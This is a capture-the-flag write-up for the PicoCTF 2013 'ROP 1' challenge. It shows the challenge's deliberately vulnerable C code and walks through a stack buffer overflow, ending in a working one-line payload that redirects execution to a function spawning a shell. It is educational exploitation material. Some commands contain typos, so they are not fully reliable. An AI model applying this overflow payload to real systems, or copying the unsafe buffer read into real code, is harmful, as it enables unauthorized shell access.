# PicoCTF 2013: ROP 1

**Category:** Binary Exploitation
**Points:** 95
**Description:**

> ROP is a classic technique for getting around address randomization and
> non-executable memory. This sequence will teach you the basics.
>
> Problem available on the shell machine in /problems/ROP_1_fa6168f4d8eba0eb ,
> downloadable [here](https://2013.picoctf.com/problems/rop1-fa6168f4d8eba0eb)  with source [here](https://2013.picoctf.com/problems/rop1-fa6168f4d8eba0eb.c).
>
>

## Write-up
Looking at the C code, there are two interesting functions:
```C
int not_called() {
return system("/bin/bash");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 256);
}
```
As you may have guessed, the vulnerability is in the `vulnerable_function()`.
The function calls `read()` with a size of 256, whereas the buffer only has 128
spaces to fill. This is what is referred to as a buffer overflow, and we're
going to use it to get a shell.

The main difference between the overfllow problems and ROP is that ROP type
problems have NX/ASLR enabled, and sometimes other protections. This means that 
libc and stack addresses are random, and that no memory is simultaneously
writeable and executable. RIP shellcode.

Luckily, `not_called()` does most of the heavy lifting for us. Since
ASLR **does not** randomize the addresses in the executable, we can reliably
supply the address of `not_called()` and get a shell!

Some quick scratchwork shows that $eip is under our control after 140 bytes 
have been supplied:

```
python -c 'print "A"\*140 + "BBBB"' | strace ./rop1-fa6168f4d8eba0eb
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```

Now, instead of "BBBB" we're going to try something more useful. We need the
address of `not_called()`. We can run: 
```objdump -d rop1-fa6168f4d8eba0eb | grep "not_called"```
which yields `080484a4 <not_called>:`
The address is `0x080484a4`! However, we have to convert that address into an
escape sequence and to litte endian. Thus:
```
python -c 'print "A"\*140 + "\xa4\x84\x04\x08"'| ./rop1-fa6168f4d8eba0eba
```
should work.

However, as indicated in the SMALL_HINT file given to us, it will exit right 
away. Finally:
```
(python -c 'print "A"\*140 + "\xa4\x84\x04\x08"';cat )| ./rop1-fa6168f4d8eba0eb
```
will get you a shell!

**Note:** This was solved locally on my machine. When using the PicoCTF shell,
the name of the binary is simply "rop1". The final command would change to:
```
python -c 'print "A"\*140 + "\xa4\x84\x04\x08"';cat )| ./rop1
```

pwn.

## Other write-ups and resources

* none yet
